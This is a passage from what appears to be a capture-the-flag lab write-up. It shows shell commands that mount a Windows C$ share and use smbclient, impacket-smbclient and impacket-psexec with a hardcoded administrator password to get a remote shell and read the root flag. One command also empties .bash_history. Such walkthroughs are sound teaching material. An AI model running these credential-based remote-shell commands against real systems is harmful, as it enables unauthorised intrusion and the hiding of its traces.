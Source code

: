 ```shell
mount //127.0.0.1/
c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
```
### SMB shell access as Administrator with psexec
We can use the Administrator SMB credentials to get access and get the root.txt flag. To do that, we have two options:

1. Get SMB access and search for root.txt in the directories:
```shell
impacket-smbclient administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.143.191
```
2. Or the one I prefer, use impacket-psexec to get a shell, since the Administrator user has write rights:
```shell
impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.143.191
```
### Root Flag
```shell
type C:\Users\Administrator\Desktop\root.txt
```